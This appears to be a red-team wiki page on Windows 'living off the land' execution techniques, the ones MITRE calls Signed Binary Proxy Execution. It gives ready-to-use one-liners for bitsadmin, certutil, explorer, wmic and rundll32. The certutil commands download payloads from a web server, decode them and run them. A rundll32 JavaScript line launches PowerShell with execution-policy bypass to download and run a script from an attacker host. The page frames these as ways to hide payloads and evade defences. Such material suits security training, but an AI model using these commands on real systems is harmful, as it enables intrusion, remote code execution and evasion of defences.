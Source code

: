 # File Executions

## Theory

Here, we will show various ways of executing a binary within the operating system. The typical case of executing a binary involves various known methods such as using the command line cmd.exe or from the desktop. However, other ways exist to achieve payload execution by abusing other system binaries, of which one of the reasons is to hide or harden the payload's process. . This techniques are covered by the [LOLBAS project](https://lolbas-project.github.io) Based on the MITRE ATT\&CK framework, this technique is called **Signed Binary Proxy Execution** or **Indirect Command Execution**.

## Practice

{% tabs %}
{% tab title="BITSAdmin.exe" %}
The bitsadmin tool is a system administrator utility that can be used to create, download or upload Background Intelligent Transfer Service (BITS) jobs and check their progress. [BITS](https://learn.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal) is a low-bandwidth and asynchronous method to download and upload files from HTTP webservers and SMB servers. Additional information about the bitsadmin tool can be found at [Microsoft Docs](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin).

```bash
#Execute a file
#One-liner that creates a bitsadmin job named 1, add cmd.exe to the job, configure the job to run the target command, then resume and complete the job. 
bitsadmin /create 1 & bitsadmin /addfile 1 c:\windows\system32\cmd.exe c:\data\playfolder\cmd.exe & bitsadmin /SetNotifyCmdLine 1 c:\data\playfolder\cmd.exe NULL & bitsadmin /RESUME 1 & bitsadmin /Reset
```
{% endtab %}

{% tab title="Certutil.exe" %}
Certutil is a Windows built-in utility for handling certification services. It is used to dump and display Certification Authority (CA) configuration information and other CA components. However, people found that certutil.exe could transfer and encode files unrelated to certification services to execute them later

```powershell
# Ddownload files:
certutil -urlcache -split -f http://webserver/payload payload

# Execute a specific .dll (b64 encoded):
certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.dll & C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil /logfile= /LogToConsole=false /u payload.dll

# Execute an .exe (b64 encoded):
certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.exe & payload.exe
```
{% endtab %}

{% tab title="explorer.exe" %}
File Explorer is a file manager and system component for Windows. People found that using the file explorer binary can execute other .exe files. This technique is called Indirect Command Execution, where the explorer.exe tool can be used and abused to launch malicious scripts or executables from a trusted parent process.

```bash
#Create a child process of explorer.exe
explorer.exe /root,"C:\Windows\System32\calc.exe"
```
{% endtab %}

{% tab title="wmic.exe" %}
Windows Management Instrumentation (WMIC) is a Windows command-line utility that manages Windows components. People found that WMIC is also used to execute binaries for evading defensive measures.

```bash
#Execute calc.exe
wmic.exe process call create calc
```

The MITRE ATT\&CK framework refers to this technique as [Signed Binary Proxy Execution (T1218)](https://attack.mitre.org/techniques/T1218/)
{% endtab %}

{% tab title="rundll32.exe" %}
Rundll32 is a Microsoft built-in tool that loads and runs Dynamic Link Library DLL files within the operating system. A red team can abuse and leverage rundll32.exe to run arbitrary payloads and execute JavaScript and PowerShell scripts.

```bash
#Execute Binary - calc.exe
rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");

#Execute powershell scripts
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://AttackBox_IP/script.ps1');");
```

The MITRE ATT\&CK framework refers to this technique as [Signed Binary Proxy Execution (T1218)](https://attack.mitre.org/techniques/T1218/)
{% endtab %}
{% endtabs %}

{% hint style="danger" %}
Note that other tools can be used for file executions. We suggest visiting the [LOLBAS](https://lolbas-project.github.io/)[ ](https://lolbas-project.github.io/)project to check them out.
{% endhint %}

{% hint style="danger" %}
Note that other Leav off the Land techniques can be found in the [Weaponization section](../../weapon/).
{% endhint %}

## References

{% embed url="https://tryhackme.com/room/livingofftheland" %}

{% embed url="https://lolbas-project.github.io/#" %}
